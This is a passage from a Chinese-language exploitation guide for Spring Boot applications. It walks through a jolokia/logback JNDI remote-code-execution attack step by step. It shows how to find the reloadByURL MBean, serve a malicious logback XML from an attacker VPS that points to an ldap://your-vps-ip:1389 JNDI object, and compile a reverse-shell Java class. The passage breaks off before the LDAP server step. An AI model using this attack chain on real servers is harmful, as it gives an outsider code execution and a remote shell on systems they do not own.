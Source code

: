 [repository/springboot-eureka-xstream-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-eureka-xstream-rce)

正常访问：

```url
http://127.0.0.1:9093/env
```

### 0x04：jolokia logback JNDI RCE

#### 利用条件

- 目标网站存在 `/jolokia` 或 `/actuator/jolokia` 接口
- 目标使用了 `jolokia-core` 依赖（版本要求暂未知）并且环境中存在相关 MBean
- 目标可以请求攻击者的 HTTP 服务器（请求可出外网）

- 普通 JNDI 注入受目标 JDK 版本影响，jdk < 6u201/7u191/8u182/11.0.1(LDAP)，但相关环境可绕过

#### 利用方法

##### 步骤一：查看已存在的 MBeans

访问 `/jolokia/list` 接口，查看是否存在 `ch.qos.logback.classic.jmx.JMXConfigurator` 和 `reloadByURL` 关键词。

##### 步骤二：托管 xml 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```bash
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

在根目录放置以 `xml` 结尾的 `example.xml`  文件，内容如下：

```xml
<configuration>
  <insertFromJNDI env-entry-name="ldap://your-vps-ip:1389/JNDIObject" as="appName" />
</configuration>
```

##### 步骤三：准备要执行的 Java 代码

编写优化过后的用来反弹 shell 的 [Java 示例代码](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/JNDIObject.java)  `JNDIObject.java`，

使用兼容低版本 jdk 的方式编译：

```bash
javac -source 1.5 -target 1.5 JNDIObject.java
```

然后将生成的 `JNDIObject.class` 文件拷贝到 **步骤二** 中的网站根目录。

##### 步骤四：架设恶意 ldap 服务
